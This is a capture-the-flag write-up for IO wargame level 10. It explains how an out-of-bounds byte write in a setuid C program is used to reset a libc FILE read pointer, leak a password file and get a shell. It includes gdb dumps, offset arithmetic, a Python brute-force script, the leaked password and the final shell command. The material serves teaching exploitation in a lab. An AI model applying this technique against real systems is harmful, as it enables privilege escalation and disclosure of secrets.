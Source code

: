 # IO Level 10

## Problem
This problem has a fairly small code.
````
//written by andersonc0d3
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv){
        FILE *fp = fopen("/levels/level10_alt.pass", "r");
        struct {char pass[20], msg_err[20]} pwfile = {{0}};
        char ptr[0];

        if(!fp || argc != 2)
                return -1;

        fread(pwfile.pass, 1, 20, fp);
    pwfile.pass[19] = 0;
        ptr[atoi(argv[1])] = 0;
        fread(pwfile.msg_err, 1, 19, fp);
        fclose(fp);

        if(!strcmp(pwfile.pass, argv[1]))
                execl("/bin/sh", "sh", 0);
        else
                puts(pwfile.msg_err);


        return 0;
}
````

## Writeup

This program opens a "secret" file and reads the password. It also takes a command line argument and compares it with the password that is read. If they both match, a shell is 
given. However, there is no access to read the password file directly as it is set to elevated permission. 
The program also reads the next few bytes from the same file which is supposed to be the "error message". If the passwords dont match, the program then prints out the error message.
Also, there is a statement `ptr[atoi(argv[1])] = 0;` which sets the byte at (ptr + argv[1]) to zero. This is done after the first read from the password file. 

At this point, one can figure out that since there are reads happening on the same file, and this out-of-the-place statement is setting a byte to zero and dependant on the 
command line argument, there is a way to reset the read pointer of the file. If the pointer is reset, when there is a second read into the `msg_err` buffer, it reads the password
instead of the error message.

On opening this binary in gdb, and examining the structure of `FILE`:

````
(gdb) p *fp
$27 = {_flags = -72539000, _IO_read_ptr = 0x0, _IO_read_end = 0x0, _IO_read_base = 0x0, _IO_write_base = 0x0, _IO_write_ptr = 0x0, _IO_write_end = 0x0, _IO_buf_base = 0x0,
  _IO_buf_end = 0x0, _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0, _old_offset = 0, _cur_column = 0,
  _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = 0,
  _unused2 = '\000' <repeats 39 times>}
(gdb)
````

There is a pointer called `_IO_read_ptr` which is initially 0.
This program cant be debugged directly in gdb because opening this in gdb would render the elevated password file inaccessible. One way is to compile this binary at a temporary
location and creating a password file on our own. On running the gdb on the temporary program and checking the `FILE` fter doing the read,

````
(gdb) p *fp
$28 = {_flags = -72539000, _IO_read_ptr = 0xb7fde014 "aaaaaaaaaabbbbbbbbbb\n", _IO_read_end = 0xb7fde029 "", _IO_read_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_write_ptr = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_end = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_buf_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_buf_end = 0xb7fdf000 "d\360\375\267\323\300\377\267", _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0,
  _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0,
  _mode = -1, _unused2 = '\000' <repeats 39 times>}
(gdb)
````

Note that the _IO_read_ptr is now pointing to the location after the password is read and this has to be reset to the beginning. On printing the address of this pointer in memory
and the address of `ptr` variable which allows us to set an "arbitrary" byte to 0
````
p &fp._IO_read_ptr
$29 = (char **) 0x804a00c
p &ptr
$30 = (char (*)[]) 0xbffffc74
````
So the difference would be 
````
p (int)&ptr - (int)&fp._IO_read_ptr
$31 = -1208263576
```` 

So if I pass 1208263576 as the argument, it sets the first byte of value pointed to by fp._IO_read_ptr to 0. Since there were only 20 bytes read, setting the first byte to zero 
would reset the pointer. However, it wont set the required byte to zero adn fread still reads the "error message" into the `msg_err` buffer.

Note that the address of pointer `ptr` depends on the length of command line argument since the command line argument is stored on the stack. On performing the same calculations with
the new argument obtained above (1208263576)

````
p (int)&ptr - (int)&fp._IO_read_ptr
$40 = -1208263592
````

Thus the new argument is 1208263592. This argument resets the read pointer and causes the password to be printed out as error message.

However, on running this on the original binary, the offsets vary. One method is to brute force the program with different values around the values obtained in gdb. The 
python script described below does that.

````
#!/usr/bin/env python
import subprocess
import sys

start = 1208260000
end = 1208270000
for i in range(start, end):
    try:
        output = subprocess.check_output(["/levels//level10", str(i)], stderr=None)
    except Exception:
        continue
    if output.find("ACCESS") == -1:
        print i
````

This find the value to be "1208263612". Hence on running,
` /levels/level10 1208263612`
the password that is supposed to be input is obtained.
"AverYloNgPassword!!"
**This is then passed to the binary using
`/levels/level10 `python -c 'print "AverYloNgPassword!!"'`
and the shell is obtained.**

